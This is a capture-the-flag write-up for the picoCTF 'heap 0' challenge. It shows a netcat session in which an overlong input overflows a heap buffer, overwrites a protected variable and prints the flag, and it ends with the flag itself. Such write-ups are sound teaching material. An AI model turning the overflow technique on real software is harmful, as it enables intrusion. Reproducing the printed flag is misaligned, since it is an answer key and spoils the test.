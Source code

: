 # heap 0:Binary Exploitation:50pts
Are overflows just a stack concern?  
Download the binary [here](chall).  
Download the source [here](chall.c).  
Connect with the challenge instance here:  
`nc tethys.picoctf.net 50907`  

Hints  
1  
What part of the heap do you have control over and how far is it from the safe_var?  

# Solution
The binary, source and destination are passed. When I tried to connect it, it was as follows. 
```bash
$ nc tethys.picoctf.net 50907

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x55c8f5e932b0  ->   pico
+-------------+----------------+
[*]   0x55c8f5e932d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice:
```
You can write any value to the heap, and if you break the 'safe_var', you can get a flag.  
```bash
$ nc tethys.picoctf.net 50907

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x558157fae2b0  ->   pico
+-------------+----------------+
[*]   0x558157fae2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4
Looks like everything is still secure!

No flage for you :(

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: SATOKISATOKISATOKISATOKISATOKISATOKISATOKISATOKISATOKISATOKI

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 3


Take a look at my variable: safe_var = TOKISATOKISATOKISATOKISATOKI


1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_1ad0e1a6}
```
When the heap overflowed, the flag could be displayed with Print Flag.
## picoCTF{my_first_heap_overflow_1ad0e1a6}